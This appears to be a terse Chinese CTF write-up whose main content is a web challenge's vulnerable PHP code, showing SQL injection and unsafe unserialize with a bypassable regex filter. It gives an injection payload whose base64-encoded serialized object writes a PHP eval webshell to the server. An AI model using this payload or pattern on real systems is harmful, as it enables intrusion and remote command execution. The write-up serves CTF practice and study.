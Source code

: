 https://play.cscg.live/feed/
# web

### Everyone loves canteen food
反序列化写文件

```php
#存在sql注入
        $sql = "SELECT * FROM food where price < " . $price_param;
        if ($result = $db->query($sql)) {
            $result_string = "";
            while($obj = $result->fetch_object()){
                if($obj->name !== '') {
                    $result_string .= $obj->name . ' for ' . $obj->price . '€ <br>';
                }

                if($obj->oldvalue !== '') {
                    #base64解码后反序列化
                    $dec_result = base64_decode($obj->oldvalue);
                    #通过+号绕过， O:+10:"AdminModel".....绕过
                    if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
                        return 'Not allowed';
                    }
                    $uns_result = unserialize($dec_result);
                    if ($uns_result[1] < $price_param) {
                        $result_string .= $uns_result[0] . ' for ' . $uns_result[1] . '€<br>';
                    }
                }
            }
```

写webshell

```
?price=2 union select 1,database(),FROM_BASE64('VHpvck1UQTZJa0ZrYldsdVRXOWtaV3dpT2pJNmUzTTZPRG9pWm1sc1pXNWhiV1VpTzNNNk1UYzZJaTkzZDNjdllYTnpaWFJ6TDJJdWNHaHdJanR6T2pFd09pSnNiMmRqYjI1MFpXNTBJanR6T2pNd09pSThQM0JvY0NCQVpYWmhiQ2drWDFCUFUxUmJKMk50WkNkZEtUc2dQejRpTzMwPQ=='),4 limit 1,2
```


### vidplow

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20250318034418.png)

edit走到了getproperty(),获取了remove的属性，怎么构造remove为accessKey

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2025-03-13   15:38
